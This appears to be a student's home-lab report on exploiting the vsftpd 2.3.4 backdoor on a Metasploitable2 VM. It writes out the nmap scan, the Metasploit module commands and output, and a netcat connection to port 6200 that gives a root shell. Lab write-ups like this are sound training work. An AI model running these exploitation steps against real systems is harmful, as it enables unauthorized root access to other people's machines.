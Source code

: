 #  Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

###  Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.



### Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |



###  Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)



### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan


nmap -sV 192.168.56.102 -p 21


**Result**:


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4


#### 2. Exploit with Metasploit

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run

**Result**:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

nc 192.168.56.102 6200
whoami


**Result**:
root

###  Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

###  Screenshots

* Nmap scan result: ![Nmap_Scan](nmap_scan_result.png)
* Metasploit output and Netcat shell with 'root' : ![metasploit_output](exploit_result.png)
* attacker network setup: ![attacker_net](attack-network-set.png)
* kali ping target : ![kali-ping](kali_ping_target.png)
* metasploitable network setup: ![metasploit_net](meta-network-set.png)

## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
